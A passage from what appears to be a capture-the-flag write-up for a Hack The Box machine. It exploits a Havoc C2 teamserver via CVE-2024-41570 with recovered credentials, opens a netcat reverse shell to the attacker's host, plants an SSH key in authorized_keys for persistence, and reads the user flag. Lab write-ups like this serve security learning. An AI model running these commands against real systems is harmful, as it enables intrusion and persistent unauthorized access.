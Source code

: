         pwn and elevate until it's done

[12:47:53] [info] Havoc Framework [Version: 0.7] [CodeName: Bites The Dust]
[12:47:53] [info] loaded config file: client/config.toml
[12:47:54] [info] Connecting to profile: HTB
<string>:114: SyntaxWarning: invalid escape sequence '\W'
[12:47:54] [info] Started "Demon Listener" listener
{{< /highlight >}}

Using the `Ilya` account retrieved from the Havoc configuration file, we run the exploit with the following command to gain a reverse shell on the server:

{{< highlight go "hl_lines=1 11" >}}
$ python3 CVE-2024-41570.py -t https://10.10.11.49 -i 127.0.0.1 -p 40056 -U ilya -P 'CobaltStr1keSuckz!'
[***] Trying to register agent...
[***] Success!
[***] Trying to open socket on the teamserver...
[***] Success!
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!
...
Enter command to execute: busybox nc 10.10.14.173 80 -e sh
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!
{{< /highlight >}}

As the reverse shell was unstable and kept disconnecting, we add our public SSH key to Ilya’s SSH authorized_keys file for a more stable access.
{{< highlight go "hl_lines=1 4 5" >}}
$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.173] from (UNKNOWN) [10.10.11.49] 60884
echo "ssh-ed25519 A...k kali@kali" >> /home/ilya/.ssh/authorized_keys
cat /home/ilya/.ssh/authorized_keys
...
ssh-ed25519 A...k kali@kali
{{< /highlight >}}

Then, we can access the server via SSH and grab the user flag.
{{< highlight go "hl_lines=1 3 5" >}}
$ ssh -i ~/.ssh/id_ed25519 ilya@10.10.11.49
...
ilya@backfire:~$ ls
files  hardhat.txt  Havoc  user.txt
ilya@backfire:~$ cat user.txt
b96[...]016b
{{< /highlight >}}

## Lateral mouvement: Sergej
### Exploit HardHat C2: Authentification bypass + RCE
